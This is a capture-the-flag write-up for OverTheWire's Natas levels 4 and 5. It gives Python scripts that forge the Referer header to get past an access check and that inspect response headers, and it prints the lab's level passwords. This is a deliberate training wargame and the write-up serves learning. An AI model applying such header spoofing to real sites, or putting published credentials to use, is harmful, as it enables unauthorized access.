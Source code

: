 **URL :** [http://natas4.natas.labs.overthewire.org](http://natas4.natas.labs.overthewire.org) <br/>
**Credentials :** *natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ*

When you try to login, you get the following error message:

```bash
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

You can solve this one by changing the *referer* of the request with a simple Python script:

```python
import requests

url = "http://natas4.natas.labs.overthewire.org/"
referer = "http://natas5.natas.labs.overthewire.org/"

s = requests.Session()
s.auth = ('natas4', 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ')
s.headers.update({'referer': referer})
r = s.get(url)

print(r.text)
```

Grab the password and go to the next level :

```text
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## Natas 05 Solution

**URL :** [http://natas5.natas.labs.overthewire.org](http://natas5.natas.labs.overthewire.org) <br/>
**Credentials :** *natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq*

When we try to login, we get the following error message :

```text
Access disallowed. You are not logged in
```

Let's check the headers of the HTTP response with Python :

```python
import requests

url = "http://natas5.natas.labs.overthewire.org/"
s = requests.Session()
s.auth = ('natas5', 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq')
r = s.get(url)

print(r.headers)
```
